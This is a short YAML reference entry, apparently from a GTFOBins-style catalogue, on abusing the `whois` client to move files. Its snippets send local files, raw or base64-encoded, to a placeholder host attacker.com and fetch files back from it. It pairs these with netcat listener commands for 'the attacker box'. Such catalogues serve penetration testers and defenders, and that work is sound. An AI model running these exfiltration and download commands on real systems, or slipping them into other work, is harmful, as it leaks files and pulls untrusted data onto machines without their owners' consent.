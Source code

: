 ```yaml
---
description: |
  `whois` hangs waiting for the remote peer to close the socket.
functions:
  file-upload:
    - description: Send a text file to a TCP port. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file. The file has a trailing `$'\x0d\x0a'` and its length is limited by the maximum size of arguments.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        whois -h $RHOST -p $RPORT "`cat $LFILE`"
    - description: Send a binary file to a TCP port. Run `nc -l -p 12345 | tr -d $'\x0d' | base64 -d > "file_to_save"` on the attacker box to collect the file. The file length is limited by the maximum size of arguments.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        whois -h $RHOST -p $RPORT "`base64 $LFILE`"
  file-download:
    - description: Fetch remote text file from a remote TCP port. Run `nc -l -p 12345 < "file_to_send"` on the attacker box to send the file. The file has instances of `$'\x0d'` stripped.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_save
        whois -h $RHOST -p $RPORT > "$LFILE"
    - description: Fetch remote binary file from a remote TCP port. Run `base64 "file_to_send" | nc -l -p 12345` on the attacker box to send the file.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_save
        whois -h $RHOST -p $RPORT | base64 -d > "$LFILE"
---
```

